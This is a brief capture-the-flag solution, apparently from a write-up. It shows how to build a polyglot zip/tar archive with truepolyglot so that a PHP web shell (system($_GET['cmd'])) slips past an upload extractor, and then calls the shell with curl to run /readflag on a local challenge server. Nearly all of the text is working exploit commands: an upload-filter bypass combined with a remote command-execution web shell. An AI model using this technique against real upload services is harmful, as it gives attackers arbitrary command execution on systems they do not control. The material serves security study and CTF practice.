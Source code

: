 Create a polyglot zip/tar file using truepolyglot and upload a webshell to execute /readflag

```sh
$ echo 'safe' > safe
$ zip safe.zip safe.txt
$ echo '<?php system($_GET["cmd"]) ?>' > exploit.php
$ touch $'PK\x03\x04'
$ tar -cf exploit.tar $'PK\x03\x04' exploit.php
$ truepolyglot zipany --payload1file exploit.tar --zipfile safe.zip exploit_polyglot.zip
```

After uploading:

```sh
$ curl http://localhost:3000/extracted/YOUR_UPLOAD_PATH/exploit.php?cmd=/readflag
```